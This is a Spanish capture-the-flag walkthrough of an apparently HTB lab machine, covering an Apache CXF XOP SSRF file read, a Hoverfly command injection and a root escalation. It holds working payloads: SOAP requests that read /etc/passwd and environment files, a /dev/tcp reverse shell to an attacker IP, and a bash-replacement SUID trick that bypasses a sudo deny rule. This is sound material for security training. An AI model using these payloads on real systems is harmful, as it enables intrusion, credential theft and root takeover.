Content-Type: application/xop+xml
Content-ID: <root.message@cxf.apache.org>

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
   <soap:Body>
      <dev:submitReport>
         <arg0>
            <content>
               <xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="cid:9f3a769c@ejemplo.com"/>
            </content>
         </arg0>
      </dev:submitReport>
   </soap:Body>
</soap:Envelope>

--SEPARADOR
Content-Type: application/octet-stream
Content-ID: <9f3a769c@ejemplo.com> 

[ DATOS DEL ARCHIVO ...]

--SEPARADOR--
```
Aquí:
- `boundary="SEPARADOR"` especifica que, dado que se van a mandar varias cosas mezcladas en el paquete, `--SEPARADOR` hará de separador entre ellas.
- `<9f3a769c@ejemplo.com>` es el tag que identifica al binario en el mensaje.

Cuando CXF recibe un mensaje así:
1. Lee `Content-Type: multipart/related` y `boundary="SEPARADOR"`
2. Divide la solicitud en varias partes en función del separador, los guarda en RAM indexados por `cid`
3. Coge la primera parte, que siempre es el XML SOAP, y lo pasa al parser (Woodstox). El parser va leyendo hasta llegar al `<xop:Include ... href="cid:9f3a769c@ejemplo.com"/>`
4. El parser mira en memoria a ver si hay alguna parte con `cid:9f3a769c@ejemplo.com`. Si la hay, la toma y la incluye en el mensaje.
5. Cuando todo está ya parseado, CXF convierte todos los datos al objeto `report` y nos lo devuelve.

El problema aquí llega cuando CXF no verifica el valor del `href`, permitiéndonos solicitar un dato que, p.ej, no comience por `cid:`, sino que lo haga por  `http://`.

#### Explotación
Si mandamos este payload:
```
POST /employeeservice HTTP/1.1
Host: devarea.htb:8080
Content-Type: multipart/related; type="application/xop+xml"; boundary="SEPARADOR"
Connection: close
Content-Length: 688

--SEPARADOR
Content-Type: application/xop+xml; charset=UTF-8; type="text/xml"
Content-ID: <root.message@cxf.apache.org>

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dev="http://devarea.htb/">
   <soap:Body>
      <dev:submitReport>
         <arg0>
            <confidential>false</confidential>
            <content>
               <xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="http://10.10.14.219:8000/test"/>
            </content>
            <department>test</department>
            <employeeName>test</employeeName>
         </arg0>
      </dev:submitReport>
   </soap:Body>
</soap:Envelope>

--SEPARADOR--
```

Y lo mandamos:


Vemos que efectivamente tenemos SSRF. Si probamos con `href="file:///etc/passwd"`:
```xml
<return>Report received from test. Department: test. Content: cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2
...[SNIP]...
Ojk4NDo6L29wdC9zeXN3YXRjaDovdXNyL3NiaW4vbm9sb2dpbgpwb3N0Zml4Ong6MTExOjExMjo6L3Zhci9zcG9vbC9wb3N0Zml4Oi91c3Ivc2Jpbi9ub2xvZ2luCl9sYXVyZWw6eDo5OTk6OTg3OjovdmFyL2xvZy9sYXVyZWw6L2Jpbi9mYWxzZQpkaGNwY2Q6eDoxMDA6NjU1MzQ6REhDUCBDbGllbnQgRGFlbW9uLCwsOi91c3IvbGliL2RoY3BjZDovYmluL2ZhbHNlCg==</return>
```
Que está en b64, si lo decodificamos:
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...
dev_ryan:x:1001:1001::/home/dev_ryan:/bin/bash
ftp:x:110:111:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
syswatch:x:984:984::/opt/syswatch:/usr/sbin/nologin
postfix:x:111:112::/var/spool/postfix:/usr/sbin/nologin
_laurel:x:999:987::/var/log/laurel:/bin/false
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
```

Ahora que tenemos acceso a archivos del servidor, podemos mirar las variables de entorno accediendo a `/proc/self/environ`:

```bash
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/snap/bin
USER=dev_ryan
LOGNAME=dev_ryan
HOME=/home/dev_ryan
SHELL=/bin/bash
INVOCATION_ID=88718daca3814fbe8bae9d956ef77a73
JOURNAL_STREAM=8:19468
SYSTEMD_EXEC_PID=1456
MEMORY_PRESSURE_WATCH=/sys/fs/cgroup/system.slice/employee-service.service/memory.pressure
MEMORY_PRESSURE_WRITE=c29tZSAyMDAwMDAgMjAwMDAwMAA=
JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64
```

Vemos que el proceso se está ejecutando como `dev_ryan`, lo que implica que podemos ver y entrar a su directorio. Si solicitamos su directorio, en sí (`/home/dev_ryan`), vemos lo siguiente:
```bash
.bash_history
.bash_logout
.bashrc
.cache
.local
.profile
.ssh
syswatch-v1.zip
user.txt
```

Tras probar a solicitar la user flag, veo que, por algún motivo, no se puede. De todas formas, podemos solicitar `syswatch-v1.zip` y guardarlo como base64, luego convertirlo a zip y extraer sus contenidos, a ver si hay algo interesante.

```bash
$ cat zip
UEsDBAoAAAAAALJEjlsAAAAAAAAAAAAAAAAJABwAc3lzd2F0Y2gvVVQJAAOfvT5poL0+aXV4CwABBAAAAA... #base64

$ cat zip | base64 -d > syswatch-v1.zip

$ file syswatch-v1.zip 
syswatch-v1.zip: Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified Dec 14 2025 08:37:36, uncompressed size 0, method=store
```

Si abrimos el `.zip`, vemos los archivos de una app de flask:
```bash
$ tree                            
.
├── backup
├── config
...
│   ├── syswatch.db
...
└── syswatch.sh
```
Encontramos un `syswatch.db` (SQLite3), si lo abrimos:



Tenemos el usuario `admin` y un hash: `scrypt:32768:8:1$IyKfiteB3TNFK6Hv$a0fbf5283db6a13859776827133e99d4d5ab43e85bedd05b06119e6fdca096ac81570d4497a836d09a155884182b6442cfcf6986b96310b514f34d9da871cb70`. Pero, tristemente y tras crackearlo con hashcat, resuelve a `admin`, y, todavía más tristemente, tras probar combinaciones con `admin` y `dev_ryan`, no podemos iniciar sesión en ningún sitio, así que se trataba de un placeholder.

#### Más enumeración
A partir de aquí voy a abstraer cada payload SSRF con comandos en el servidor, como `ls /opt` o `cat /home/dev_ryan/.bashrc`, para evitar tener que poner el payload cada vez, pero es importante recordar que aquí todavía estamos usando el SSRF del CVE-2022-46364, y que todo va en formato `href="file:///opt"`, no en `ls /opt`.

Si listamos lo que hay en `/opt`:
```bash
$ ls /opt
EmployeeService # El directorio al que hemos podido acceder antes
HoverFly
syswatch # No nos deja listar contenidos

$ ls /opt/HoverFly
hoverctl
hoverfly
LICENSE.txt
VERSION.txt

$ cat /opt/HoverFly/VERSION.txt
master-4541 linux_amd64
```

Pero si buscamos en Internet vemos que no hay una "versión 4541", y si clonamos el repo y miramos los commits, tampoco hay un commit 4541 en la rama master.

Pasado un rato me planteo que dado que Hoverfly (y el dashboard) se ejecutan como servicios, posiblemente tengan algún tipo de entrada en Systemd. Estos archivos de configuración normalmente se guardan en `/etc/systemd/system/` o `/lib/systemd/system`.

Si probamos con el primero:
```bash
$ cat /etc/systemd/system/hoverfly.service #No sabemos el nombre de servicio, hay que probar.
[Unit]
Description=HoverFly service
After=network.target

[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0

Restart=on-failure
RestartSec=5
StartLimitIntervalSec=60
StartLimitBurst=5
LimitNOFILE=65536
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
```

Y aquí tenemos las credenciales `admin`:`O7IJ27MyyXiU`.

## Puerto 8888: Dashboard
Ya con las credenciales, probamos a iniciar sesión en el dashboard y:


Tenemos la versión v1.11.3, vulnerable a [CVE-2025-54123](https://nvd.nist.gov/vuln/detail/CVE-2025-54123), Command Injection en el endpoint `/api/v2/hoverfly/middleware`, CVSS9.8.

Hay un [PoC público](https://github.com/kasem545/CVE-2025-54123-Poc.git) así que vamos a aprovecharlo:
```bash
$ python3 CVE-2025-54123.py -t http://devarea.htb:8888 -u admin -p O7IJ27MyyXiU -c 'bash -i >& /dev/tcp/10.10.14.219/4444 0>&1'
...
[PAYLOAD]
{
  "binary": "/bin/bash",
  "script": "bash -i >& /dev/tcp/10.10.14.219/4444 0>&1"
}

[*] Sending exploit to http://devarea.htb:8888/api/v2/hoverfly/middleware...
```

Y en nuestro listener:

```bash
$ penelope -i 10.10.14.219
[+] Listening for reverse shells on 10.10.14.219:4444 
[+] Got reverse shell from devarea~10.129.19.233-Linux-x86_64
[+] Shell upgraded successfully using /usr/bin/python3!

dev_ryan@devarea:/opt/HoverFly$
```

Ahora creamos un par de claves ssh y subimos la pública al `authorized_keys` de dev_ryan.
```bash
$ ssh-keygen -t rsa          
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./dev_ryan    
...
The key fingerprint is:
SHA256:fHffzmWTBKfRWMdceWMArx/OiJ80AfO6FaU6A//snMs kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|           ....+=|
```
Desde el servidor:
```bash
dev_ryan@devarea:~$ echo 'ssh-rsa AAAAB3...' > ~/.ssh/authorized_keys
```

Y nos conectamos.
```bash
$ ssh -i dev_ryan dev_ryan@devarea.htb
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-106-generic x86_64)

dev_ryan@devarea:~$ 
```

## Privesc
Si miramos los binarios que podemos ejecutar como root:
```bash
dev_ryan@devarea:~$ sudo -l
Matching Defaults entries for dev_ryan on devarea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev_ryan may run the following commands on devarea:
    (root) NOPASSWD: /opt/syswatch/syswatch.sh, !/opt/syswatch/syswatch.sh web-stop, !/opt/syswatch/syswatch.sh web-restart
```

Nos fijamos en el programa (que es exactamente al que teníamos acceso en el .zip), podemos ver varios archivos y scripts, tanto de bash como de python. Además, también hay una app web ejecutándose en `localhost:7777`:



Si probamos con `admin`:`admin` (creackeado antes en el .db) sale "Invalid credentials".

Volviendo al programa general, el script que inicia y crea todo es el siguiente:

```setup.sh
#!/bin/bash
set -euo pipefail
if [ "$(id -u)" -ne 0 ]; then echo "Require root"; exit 1; fi
echo "[*] SysWatch setup starting"
... [SNIP]...
# 1. Se crea el user "syswatch"
# 2. Se crea el directorio /opt/syswatch (al que no tenemos acceso) y se instala el programa
"$OPT_DIR/venv/bin/pip" install -r "$OPT_DIR/syswatch_gui/requirements.txt"
ENV_FILE="/etc/syswatch.env"
SECRET="${SYSWATCH_SECRET_KEY:-}"
ADMIN="${SYSWATCH_ADMIN_PASSWORD:-}"
if [ -z "$SECRET" ]; then
  if command -v openssl >/dev/null 2>&1; then
    SECRET="$(openssl rand -hex 32)"
  else
    SECRET="$(head -c 32 /dev/urandom | xxd -p)"
  fi
fi
[ -z "$ADMIN" ] && ADMIN="SyswatchAdmin2026"
cat > "$ENV_FILE" <<EOF
SYSWATCH_SECRET_KEY=$SECRET
SYSWATCH_ADMIN_PASSWORD=$ADMIN
SYSWATCH_LOG_DIR=$OPT_DIR/logs
SYSWATCH_DB_PATH=$OPT_DIR/syswatch_gui/syswatch.db
SYSWATCH_PLUGIN_DIR=$OPT_DIR/plugins
SYSWATCH_BACKUP_DIR=$OPT_DIR/backup
SYSWATCH_VERSION=1.0.0
EOF
chmod 755 "$ENV_FILE"
WEB_UNIT="/etc/systemd/system/syswatch-web.service"
cat > "$WEB_UNIT" <<EOF
[Unit]
Description=SysWatch Web GUI
After=network.target
...
```
Aquí vemos que, tras instalarse el programa en /opt/syswatch, se crea una clave privada hexadecimal de 32 dígitos, además, parece que tenemos una posible contraseña `SyswatchAdmin2026`. Luego se crea un servicio, si miramos a fondo:

```bash
dev_ryan@devarea:~$ cat /etc/systemd/system/syswatch-web.service
[Unit]
Description=SysWatch Web GUI
After=network.target

[Service]
Type=simple
User=syswatch
Group=syswatch
EnvironmentFile=/etc/syswatch.env
WorkingDirectory=/opt/syswatch/syswatch_gui
ExecStart=/opt/syswatch/venv/bin/python /opt/syswatch/syswatch_gui/app.py
Restart=on-failure

[Install]
WantedBy=multi-user.target

dev_ryan@devarea:~$ cat /etc/syswatch.env 
SYSWATCH_SECRET_KEY=f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725
SYSWATCH_ADMIN_PASSWORD=SyswatchAdmin2026
SYSWATCH_LOG_DIR=/opt/syswatch/logs
SYSWATCH_DB_PATH=/opt/syswatch/syswatch_gui/syswatch.db
SYSWATCH_PLUGIN_DIR=/opt/syswatch/plugins
SYSWATCH_BACKUP_DIR=/opt/syswatch/backup
SYSWATCH_VERSION=1.0.0
```
Hemos conseguido la "clave secreta de Syswatch", aunque todavía tenemos que descubrir para qué sirve.

### Iniciando sesión en Web App
Ahora, con el username `admin` de antes, y la contraseña `SyswatchAdmin2026` podemos probar a iniciar sesión:



Desgraciadamente, tampoco sirve de mucho. Dicho esto, sí que tenemos una ventaja, y es que, aunque la contraseña no ha servido, tenemos la variable `SYSWATCH_SECRET_KEY`. Si miramos para qué la usa la app web:
```bash
$ cat app.py | grep SYSWATCH_SECRET_KEY
app.secret_key = os.environ.get("SYSWATCH_SECRET_KEY", "change-me")
```

Vemos que se trata específicamente de la clave secreta que Flask usa para firmar sus cookies. El hecho de que la conozcamos implica que podríamos crear una cookie maliciosa. En `app.py`, vemos que, cuando la app comprueba que el usuario está autenticado, hace lo siguiente:
```app.py
...
def require_login():
    if not session.get("user_id"):
        return redirect(url_for("login"))
```
Esto significa que, con un `user_id` y el `SYSWATCH_SECRET_KEY` podemos crear una cookie "maliciosa" y firmarla, que nos autentique:

```bash
$ flask-unsign --sign --cookie "{'user_id': 1}" --secret 'f3ac48a6006a13a37ab8da0ab0f2a3200d8b3640431efe440788beaefa236725' 
eyJ1c2VyX2lkIjoxfQ.adKAkg.Ae_Y8bxSPbe3DJq_AXGhP3gzIro
```

Ahora vamos al panel de login, entramos en las herramientas de desarrollador, vamos a **Storage**>**Cookies** y ahí añadimos una "`session`" con valor `eyJ1c2VyX2lkIjoxfQ.adKAkg.Ae_Y8bxSPbe3DJq_AXGhP3gzIro`.



Si ahora recargamos la página:



Aquí podemos ver varias cosas, aunque tenemos un problema, y es que si vamos mirando las opciones que nos da la app web, tanto desde el navegador, como mirando su código fuente, veremos que no son especialmente vulnerables, así que quizás hayamos conseguido iniciar sesión para nada. Tendremos que mirar por otro lado.

### Writable Bash
Pasado un rato mirando, encuentro lo siguiente:
```bash
dev_ryan@devarea:~$ find / -type f -user root -perm /o=w ! -path "/proc/*" 2>/dev/null
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.notify
/sys/kernel/security/apparmor/.access
/usr/bin/bash
```
Vemos que el binario de `bash` puede ser modificado por cualquiera, incluidos nosotros. Por esto mismo, podemos modificarlo, y cuando cualquier script ejecutándose como root abra bash, ejecutará lo que queramos con sus privilegios.

Primero copiamos el bash original a un sitio seguro:
```bash
dev_ryan@devarea:~$ cp /usr/bin/bash /tmp/realbash
```
Ahora creamos un wrapper `/tmp/fakebash`:
```bash
dev_ryan@devarea:~$ cat /tmp/fakebash 
#!/tmp/realbash

if [ "$EUID" -eq 0 ]; then # Si esto lo ejecuta root:
    chown root:root /tmp/realbash # Cambiar owner y grupo de /tmp/realbash a root
    chmod 4755 /tmp/realbash # Añadir bit SUID a /tmp/realbash
fi

# En cualquier caso, luego se ejecuta bash con los argumentos pasados:
exec /tmp/realbash "$@"
# --- Fin de /tmp/fakebash

dev_ryan@devarea:~$ cat /tmp/fakebash > /usr/bin/bash # Intentamos copiar fakebash al bash writable.
-bash: /usr/bin/bash: Text file busy
```
Pero, como vemos, antes de copiarlo, necesitamos no estar ejecutando bash, así que cerramos todas las sesiones de SSH (luego podemos volver a abrirlas) y entramos por SSH con un shell distinto a bash:
```bash
$ ssh -i dev_ryan dev_ryan@devarea.htb /bin/sh
cat /tmp/fakebash > /usr/bin/bash
cat /usr/bin/bash
#!/tmp/realbash

if [ "$EUID" -eq 0 ]; then
    chown root:root /tmp/realbash
    chmod 4755 /tmp/realbash
fi

exec /tmp/realbash "$@"
```

Ya tenemos nuestro `bash` malicioso. Ahora necesitamos ejecutarlo como root. Para ello, miramos otro de los scripts de Syswatch: `syswatch.sh`. En él encontramos:
```syswatch.sh
#!/bin/bash
...
main() {
    case "${1:-}" in
        web) start_web ;;
        web-stop) stop_web ;;
        web-restart|web-reload) reload_web ;;
        web-status) status_web ;;
        plugin) shift; execute_plugin "$@" ;;
        plugins) list_plugins ;;
        logs) shift; view_logs "$@" ;;
        --version) echo "$VERSION" ;;
        help|--help|-h) usage ;;
        *)
            usage
            ;;
    esac
}
```
Recordemos de `sudo -l` que **no podíamos usar el argumento web-restart**, pero sí podemos usar uno exactamente equivalente: **web-reload**, que no se había considerado al establecer la prohibición. De todas formas, dado que el propio `syswatch.sh` es un script de bash, cualquier argumento permitido valdría porque se llamaría a bash de todas formas.

Si ahora usamos `web-reload`:
```bash
realbash-5.2$ sudo /opt/syswatch/syswatch.sh web-reload
[*] Reloading SysWatch Web GUI service...
[+] SysWatch Web GUI reloaded successfully!

realbash-5.2$ ls -al /tmp/realbash 
-rwsr-xr-x 1 root root 1446024 Apr  5 15:57 /tmp/realbash

realbash-5.2$ /tmp/realbash -p
realbash-5.2# whoami
root
```
Y tenemos root.
